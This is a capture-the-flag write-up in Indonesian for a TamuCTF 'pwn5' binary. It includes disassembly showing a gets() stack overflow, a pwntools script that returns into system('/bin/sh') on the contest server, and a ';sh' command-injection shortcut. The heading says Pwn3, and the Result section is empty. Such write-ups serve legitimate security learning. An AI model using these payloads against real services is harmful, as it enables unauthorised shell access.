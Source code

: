 # __TamuCTF__
## _Pwn3_

## Information
**Category:** | **Points**
pwn | 100

**Description**

> nc pwn.tamuctf.com 4325
> Difficulty: medium
> [pwn5](./pwn5)

### Pwn5
#### File
```
pwn5: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=f9690a5a90e54f8336b65636e719feac16798d50, not stripped
```

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

#### Run
```
[l0l@l0l Pwn5]$ nc pwn.tamuctf.com 4325
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
.
Result of ls .:
flag.txt
pwn5
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
```

#### Solve
Seperti Pwn4, terdapat cara mudah untuk solve soal ini yaitu dengan payload `;sh`. Namun solusi yang sebenarnya adalah dengan ROP.

Maka coba solve dengan cara yang diinginkan. Setelah dibuka di gbd ternyata banyak sekali fungsi di program ini. Langsung saja disassemble fungsi main. Tidak banyak yang menarik, hanya memanggil fungsi laas.
```
   0x0804894d <+17>:    mov    eax,ds:0x80eb4b8
   0x08048952 <+22>:    push   0x0
   0x08048954 <+24>:    push   0x0
   0x08048956 <+26>:    push   0x2
   0x08048958 <+28>:    push   eax
   0x08048959 <+29>:    call   0x804f960 <setvbuf>
   0x0804895e <+34>:    add    esp,0x10
   0x08048961 <+37>:    call   0x80488be <laas>
   0x08048966 <+42>:    jmp    0x8048961 <main+37>
```

Disassemble fungsi `laas`

```
   0x080488f1 <+51>:    add    esp,0x10
   0x080488f4 <+54>:    sub    esp,0xc
   0x080488f7 <+57>:    lea    eax,[ebp-0xd]
   0x080488fa <+60>:    push   eax
   0x080488fb <+61>:    call   0x804f660 <gets>
   0x08048900 <+66>:    add    esp,0x10
   0x08048903 <+69>:    sub    esp,0x8
   0x08048906 <+72>:    push   0x2f
   0x08048908 <+74>:    lea    eax,[ebp-0xd]
   0x0804890b <+77>:    push   eax
   0x0804890c <+78>:    call   0x80482a0
   0x08048911 <+83>:    add    esp,0x10
   0x08048914 <+86>:    test   eax,eax
```

Vulnerability nya masih sama yaitu buffer overflow, hanya saja di sini ternyata programnya `statically linked` jadi kita tidak bisa menggunakan ret2libc. Tapi masih bisa diakali dengan ROP. Tapi `ROPgadget --binary pwn5 --ropchain` tidak bisa jalan, gatau kenapa. Akhirnya ketemu cara lain untuk mencari address system di dalam binary.
```
gdb-peda$ info address system
Symbol "system" is at 0x804ee30 in a file compiled without debugging.
```

Sedangkan untuk mencari string "/bin/sh" kita dapat menggunakan binary ninja lalu lakukan pencarian string "/bin/sh". Hasilnya ditemukan pada address 0x080bc140.

Selanjutnya kita harus mencari tahu berapa padding yang dibutuhkan karena di tengah-tengah program mengacak-acak esp.

```
set follow-fork-mode parent
pattern_create 500
pattern_offset 0x41414341
gdb-peda$ pattern_offset 0x41414341
gttern_offset 0x41414341
```

Jadi padding yang dibutuhkan 17 bytes.

#### Payload
```py
from pwn import *
r = remote('pwn.tamuctf.com', 4325)
context.arch='i386'
system = 0x804ee30
binsh = 0x80bc140
return_addr_system = 'AAAA'	# return address after executing system
payload = cyclic(17)+p32(system) +return_addr_system+ p32(binsh)
r.sendline(payload)
r.interactive()
```

#### Result
```
```

#### Flag
gigem{r37urn_0r13n73d_pr4c71c3}

#### TODO
Kerjakan dengan ROP

